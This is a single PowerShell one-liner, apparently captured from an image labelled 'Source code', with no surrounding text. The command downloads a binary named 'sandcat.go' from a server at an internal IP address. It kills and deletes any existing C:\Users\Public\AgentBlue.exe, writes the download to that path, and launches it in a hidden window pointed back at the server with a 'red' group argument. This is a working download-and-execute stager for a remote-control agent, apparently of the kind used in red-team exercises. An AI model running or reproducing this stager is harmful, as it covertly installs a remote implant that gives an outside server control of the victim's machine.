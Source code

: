 $server="http://10.99.156.145:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\AgentBlue.exe"} | stop-process -f;rm -force "C:\Users\Public\AgentBlue.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\AgentBlue.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\AgentBlue.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
